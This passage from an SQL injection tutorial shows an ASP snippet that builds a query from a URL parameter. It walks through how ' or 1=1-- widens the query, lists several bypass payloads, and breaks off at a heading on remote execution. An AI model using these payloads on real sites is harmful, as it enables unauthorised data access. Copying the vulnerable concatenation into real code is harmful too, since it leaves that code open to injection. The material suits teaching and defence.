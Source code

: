 #### 3. But why ' or 1=1-- is important in SQL Injection?

Let us look at another example why ' or 1=1-- is important. Other than bypassing login, it is also possible to view extra information that is not normally available. Take an asp page that will link you to another page with the following URL:`http://duck/index.asp?category=food`

In the URL, ```'category'``` is the variable name, and ```'food'``` is the value assigned to the variable. In order to do that, an ASP might contain the following code (OK, this is the actual code that we created for this exercise):
```
v_cat =request("category")
sqlstr=&amp;quot;SELECT * FROM product WHERE PCategory='" & v_cat & "'"
set rs=conn.execute(sqlstr)
```
As we can see, our variable will be wrapped into v_cat and thus the SQL statement should become: 
```sql 
SELECT * FROM product WHERE PCategory='food'
```

The query should return a resultset containing one or more rows that match the `WHERE` condition, in this case, `'food'`. Now, assume that we change the URL into something like this:
```
http://duck/index.asp?category=food' or 1=1--
```
Now, our variable `v_cat equals` to "food' or 1=1-- ", if we substitute this in the SQL query, we will have: 
``` sql
SELECT * FROM product WHERE PCategory='food' or 1=1--'
```
The query now should now select everything from the product table regardless if PCategory is equal to `'food'` or not. A double dash ```"--"``` tell MS SQL server ignore the rest of the query, which will get rid of the last hanging single quote `(')`. Sometimes, it may be possible to replace double dash with single hash `"#"`.

However, if it is not an SQL server, or you simply cannot ignore the rest of the query, you also may try 
```' or 'a'='a```
The SQL query will now become: 
``` sql 
SELECT * FROM product WHERE PCategory='food' or 'a'='a'
```
It should return the same result. Depending on the actual SQL query, you may have to try some of these possibilities: 
```
' or 1=1--

" or 1=1--

or 1=1--

' or 'a'='a

" or "a"="a

') or ('a'='a
```
#### 4. How do I get remote execution with SQL injection?
